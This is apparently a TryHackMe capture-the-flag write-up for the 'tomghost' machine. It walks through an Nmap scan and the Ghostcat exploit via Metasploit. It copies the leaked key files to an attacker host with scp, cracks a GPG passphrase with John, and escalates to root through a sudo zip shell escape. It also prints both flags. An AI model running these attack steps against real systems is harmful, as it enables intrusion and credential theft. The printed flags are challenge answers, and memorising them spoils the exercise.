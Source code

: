 # tomghost

> Platform: TryHackMe
>
> Created by: stuxnet
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA tomghostscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.27s latency).
Scanned at 2025-08-03 13:44:59 +08 for 20s
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack ttl 61
8009/tcp open  ajp13      syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 61 Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's an **Apache Tomcat server** running in **port 8080**. Try to view the page.
![img](tomcatpage.png)

There's also an **Apache Jserv** running in **port 8009**. Let's try to Google for it a bit.
![img](google.png)

Based on this, actually it is giving us the **hints** already, which we need to exploit using the **Ghostcat attack**.

## Exploitation

In **Metasploit**, use the **ghostcat module** and make sure to set the **port to 8009**:
```
$ msfconsole -q

msf6 > search ghostcat

msf6 > use auxiliary/admin/http/tomcat_ghostcat

msf6 auxiliary(admin/http/tomcat_ghostcat) > options

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS <TARGET-IP>

msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT <TARGET-PORT>

msf6 auxiliary(admin/http/tomcat_ghostcat) > run
```

There will be the **credentials leaked** that we need to use to proceed for the next steps.

Now, let's **SSH using the credentials** and retrieve the **".pgp"** and **".asc"** file. From here also we can retrieve the **user.txt** inside the **merlin** directory (maybe unintended solve):
```
$ ssh <username>@<TARGET-IP>

$ ls
credential.pgp  tryhackme.asc

$ scp credential.pgp <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ scp tryhackme.asc <ATTACKER-USERNAME>@<ATTACKER-IP>:~

$ cat /home/merlin/user.txt
```

In our attacker machine, let's try to **crack it using John**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg2john tryhackme.asc > tryhackme.hash  

File tryhackme.asc

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash             
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSPHRASE>        (tryhackme)     
1g 0:00:00:00 DONE (2025-08-03 14:24) 16.66g/s 17866p/s 17866c/s 17866C/s marshall..<PASSPHRASE>
Use the "--show" option to display all of the cracked passwords reliably
Session completed.            
```

Now, using the **passphrase**, let's try to decrypt the **".pgp"** file. First, **import the ".asc"** file (it will prompt to enter the passphrase), then **decrypt the ".pgp"** file using **gpg command**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --import tryhackme.asc                                    
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/tomghost]
└─$ gpg --decrypt credential.pgp 
gpg: encrypted with elg1024 key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
<USERNAME>:<PASSWORD>
```

Now, let's try to **SSH using the new credentials**:
```
$ ssh <USERNAME>@<TARGET-IP>

$ cat user.txt
```

<details>
<summary><b>🏳️Flag: user.txt</b></summary>
<b>THM{GhostCat_1s_so_cr4sy}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
$ sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Now, let's check how can we spawn a privilege shell by using zip. From [GTFObins - zip](https://gtfobins.github.io/gtfobins/zip/), we can get privilege shell running the command from the **Sudo section**.
```
$ TF=$(mktemp -u)

$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'

# sudo rm $TF
```

Now, we need to read the **"root.txt"** file to complete this machine.
```
# cat /root/root.txt
```

![img](rootflag.png)

<details>
<summary><b>🏳️Flag: root.txt</b></summary>
<b>THM{Z1P_1S_FAKE}</b>
</details><br>
